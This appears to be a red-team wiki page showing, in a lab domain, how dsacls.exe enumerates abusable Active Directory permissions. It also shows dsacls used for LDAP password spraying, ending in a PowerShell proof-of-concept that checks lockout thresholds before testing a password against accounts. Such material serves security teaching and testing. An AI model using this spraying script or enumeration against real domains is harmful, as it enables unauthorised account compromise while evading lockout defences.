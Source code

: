 ```yaml
---
description: 'Enumeration, living off the land'
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary \(in addition to powershell cmdlet `Get-Acl`\) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions \(ACLS\) of an Active Directory Domain Services \(AD DS\).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Nothing useful:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-47.png)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-04.png)

...and try the command again:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-44-21.png)

### Full Control

All well known \(and abusable\) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-54-36.png)

### Add/Remove self as member

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-57-50.png)

### WriteProperty/ChangeOwnerShip

![](../../.gitbook/assets/screenshot-from-2019-03-19-23-00-04.png)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% page-ref page="privileged-accounts-and-token-privileges.md" %}

{% page-ref page="abusing-active-directory-acls-aces.md" %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code-tabs %}
{% code-tabs-item title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Failure](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-12.png)

{% code-tabs %}
{% code-tabs-item title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Successful](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-59.png)

### Dirty POC idea for Password Spraying:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}



